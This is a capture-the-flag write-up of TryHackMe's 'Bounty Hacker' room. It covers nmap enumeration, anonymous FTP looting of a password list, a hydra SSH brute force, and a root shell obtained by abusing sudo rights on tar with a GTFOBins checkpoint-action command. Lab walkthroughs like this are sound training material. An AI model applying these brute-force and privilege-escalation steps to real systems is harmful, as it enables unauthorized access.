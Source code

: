```yaml
---
title: Bounty Hacker - TryHackMe
date: 2025-05-01
---
```


<script setup>
    import RoomCard from "../../../.vitepress/components/thm/RoomCard.vue";
</script>

<RoomCard roomName="Bounty Hacker" roomLevel="Easy" roomTechnology="Linux" roomLink="https://tryhackme.com/room/cowboyhacker" roomIcon="/ctf/tryhackme/bounty-hacker/icon-room.png" />

# Challenge Description

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

# Challenge Overview

The objective of this challenge is to perform a full penetration test on the target machine `10.10.252.60`, identifying potential entry points, exploiting vulnerabilities, and ultimately achieving root access. The target appears to be a fictional system themed around bounty hunters, hinting at potential usernames or passwords.

# Enumeration

## Nmap Scan

We begin with a comprehensive Nmap scan to identify open ports and running services on the target:

```bash
nmap -sC -sV -v -A -oN nmap.txt 10.10.252.60
```

**Scan Results:**

```bash
Not shown: 982 filtered tcp ports (no-response)
PORT    STATE  SERVICE VERSION
21/tcp  open   tcpwrapped
22/tcp  open   tcpwrapped
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp  open   tcpwrapped
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

**Summary of Findings:**

- **Port 21 (FTP)** – Open, potentially misconfigured
- **Port 22 (SSH)** – Open
- **Port 80 (HTTP)** – Open, running Apache 2.4.18 (Ubuntu)

## FTP Enumeration

Accessing the FTP service using an anonymous login was successful. Two files were available for download:

**Downloaded Files:**

- `task.txt`:

  ```text
  1.) Protect Vicious.
  2.) Plan for Red Eye pickup on the moon.

  -lin
  ```

- `locks.txt` – A list of potential passwords:

  ```text
  rEddrAGON
  ReDdr4g0nSynd!cat3
  Dr@gOn$yn9icat3
  R3DDr46ONSYndIC@Te
  ReddRA60N
  R3dDrag0nSynd1c4te
  ...
  ```

The note signed by `lin` hints at a possible username for SSH access.

## SSH Brute-Force Attack

Using the username `lin` identified in `task.txt`, and the password list from `locks.txt`, we performed a brute-force attack with `hydra`:

![SSH Hydra](/ctf/tryhackme/bounty-hacker/ssh.png)

Once valid credentials were discovered, we successfully connected via SSH and retrieved the user flag:

![SSH Login](/ctf/tryhackme/bounty-hacker/ssh-login.png)

# Privilege Escalation

After gaining shell access as the `lin` user, we checked for sudo permissions:

```bash
sudo -l
```

**Output:**

```bash
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

The user is permitted to execute the `tar` command with root privileges. According to [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo), this can be leveraged to escalate privileges:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This command spawns a root shell, allowing us to read the root flag:

![Tar Exploit](/ctf/tryhackme/bounty-hacker/tar.png)